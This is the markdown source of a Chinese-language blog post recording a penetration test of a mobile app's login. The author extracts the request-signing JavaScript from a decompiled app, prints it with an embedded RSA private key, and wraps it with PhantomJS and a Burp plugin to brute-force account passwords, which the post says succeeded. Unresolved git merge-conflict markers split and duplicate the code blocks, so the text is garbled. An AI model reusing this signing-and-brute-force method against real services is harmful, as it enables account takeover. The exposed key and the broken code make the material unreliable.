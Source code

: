 ```yaml
---
layout: post
title: app渗透测试记录
date: 2020-09-28
category: webmember
---
```


# 主要记录某个app的一次爆破记录

* 拿到app 对登录进行抓包发现请求体里面有个sign参数，那么对于无法修改参数 只能对参数进行sign 再替换掉
```
access_token=cd294d2533b4d01c1644216b485d424c&sign=4feb9cfdd19756b4a258d23eade3152849cf7baefad5c1fab44c99ccc7fa9f2ae12732b07ffe038103670c39d8ac75d639e0536100b128b12bc32b229ddb3132&sign_salt=16012835903941
```
* 由于APP未加固 由于是app想通过逆向获取到sign的计算方法，通过jadxapp反编译app，全局搜索sign未发现关键字
在asserts资源里面发现存在www目录 通过本地搭建app 然后访问阅读源码发现了参数sign
* 主要代码如下  
<<<<<<< Updated upstream
```
  function getParamterSort(){
		   var dt=new Date(); 
	       var mtime=dt.getTime();
	       var time=mtime;  //获取时间字符串
	       var query = location.search.substr(1)
			    query = query.split('&')
			    var params = []
			    for (let i = 0; i < query.length; i++) {
			        let q = query[i].split('=')
			        if (q.length === 2) {
			            var sss =q[0]+decodeURI(q[1])
			            params.push(sss)
			        }
			    }
			 var dt=new Date(); 
			 var mtime=dt.getTime();
			 var str="sign_salt"+mtime;
			 params.push(str)
			 document.write("需要修改时间:"+"sign_salt="+mtime);
			 document.write("<br/>");
			 var ss=params.sort().join('');
			 return ss;
	}
	//整体字符串加密 通过html 参数传递

	function getSign1(str){
	var rsa = new RSAKey();
	rsa.readPrivateKeyFromPEMString(_privateKey);
	var signature = rsa.sign(str, 'sha256');
	document.write("加密之前的"+str);
	document.write("<br/>");
	document.write("当前加密之后的参数sign是:"+signature);
	document.write("<br/>");
}  
<<<<<<< HEAD
1.js 
=======
```  
>>>>>>> Stashed changes
var _privateKey=xxx
=======
1.js
 var _privateKey=
'-----BEGIN RSA PRIVATE KEY-----\n'+
'MIIBOgIBAAJBAI2zmmM/9komi4pQjlqkH+Pr6cSC/a+r+JExO2R6JEcNEWgoGQ8U\n'+
'uzZRYpeE5xE9LGWZACufEupAaB5y/i7l2O8CAwEAAQJBAIXTJ22wjKO+/24jYi4M\n'+
'bunMdbxXkcsE+P32pwbfq79FFmRcuBgBnu41y/ODnqszwBZ6JIklNlTleoZlFFvl\n'+
'uqECIQDdYSSbNdwsvdGsBNOAXdfkmqVERMLZsrCDtL3pPBW21wIhAKPclLVTxD7T\n'+
'myBpFeZDWMrXFAQnebp+oSAp4XFLnWOpAiAb1K2UcaX3XfmxBX5NYf7VN3fVaEuS\n'+
'sLsuI5fIbYxRSwIgcx2u1yhvENgl/gH1YZvkkDPDGxwEd5EobukdOTOu8WkCIC4i\n'+
'P4YRO9uhlkNCWRIoPUIjocXWbNHAgwXuFKEAoHp1\n'+
'-----END RSA PRIVATE KEY-----';
>>>>>>> 4b7cb05f51c467e5ff29a960c836bda8b884001c
function objToSortStr(pobj) {
		var arr = [];
		for (var p in pobj) {
			arr.push(p+pobj[p]);
		}
		var sarr = arr.sort();
		return sarr.join('');
	}
function getSign(username){
    var per=document.getElementById("name");
	var option={url: "xxxxx", type: "POST", data:{
						loginName: "test03",
						loginPwd: username,
						checkCode: "mhwu"
					}};
	var dt=new Date(); 
	var mtime=dt.getTime();
	var str=mtime;
	if(option.data){
		option.data.sign_salt=mtime;
		//参数排序字符串
		str= objToSortStr(option.data);
	}
	//参数签名
	var rsa = new RSAKey();
	rsa.readPrivateKeyFromPEMString(_privateKey);
	var signature = rsa.sign(str, 'sha256');
	var result="&sign="+signature+"&loginName=test03"+"&loginPwd="+username+"&checkCode=mhwu&"+"sign_salt="+mtime;
	return result;
}
var wasSuccessful = phantom.injectJs('1.js');/*引入实现加密的js文件*/
var wasSuccessful1 = phantom.injectJs('rsa.js');
function js_encrypt(payload){
	var newpayload = getSign(payload)
	return newpayload;
<<<<<<< Updated upstream
<<<<<<< HEAD
}  
=======
}
>>>>>>> Stashed changes
```  

=======
}
```
>>>>>>> 4b7cb05f51c467e5ff29a960c836bda8b884001c
![signhtml]({{ site.url }}/assert/image/signhtml.jpg)
可以直接计算sign的值，然后我有使用phantom.js结合burp jsencryter插件编写成功爆破出账户密码  
## 总计
* 对于sign参数加密已经遇到很多了，web的直接去前端查找sign关键字或者在js中全局查找参入的参数
* app如果是其他类型的加密可以使用frida hook
